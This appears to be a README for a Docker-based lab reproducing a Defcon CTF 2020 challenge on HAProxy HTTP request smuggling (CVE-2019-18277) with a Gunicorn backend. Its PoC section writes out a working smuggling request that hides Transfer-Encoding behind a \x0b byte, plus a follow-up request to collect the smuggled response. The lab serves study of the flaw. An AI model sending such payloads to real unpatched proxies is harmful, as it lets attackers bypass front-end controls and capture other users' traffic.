 # HAProxy HTTP request smuggling

Defcon CTF 2020 Web uplooodit

HAProxy HTTP request smuggling - CVE-2019-18277

HAProxy < 2.0.6 + Flask with Gunicorn

### Composition
* ReverseProxy: HAProxy 1.9.10
* Backend: Gunicorn 20.0.0


### Usage
Run
```
$ docker-compose up
````
Go http://127.0.0.1:10082

Get 405 and 404 response
```bash
./check.sh
```

### PoC
HAProxy < 2.0.6 ignores Transfer-Encoding value start with \x0b or \x0c

Use Burp to send requests
First request
```
POST / HTTP/1.1
Host: 127.0.0.1:9999
Connection: keep-alive
Content-Length: 131
Transfer-Encoding:[\x0b]chunked

3
123
0

POST /files/ HTTP/1.1
X-guid: 782931c2-0573-48ef-8cec-46eb88761733
Content-Type: text/plain
Content-Length: 251
```

Second request
```
GET /files/782931c2-0573-48ef-8cec-46eb88761733 HTTP/1.1
```

Python Poc
```
python3 poc.py
```

### Reference:
* https://ctftime.org/task/11590
* https://nathandavison.com/blog/haproxy-http-request-smuggling
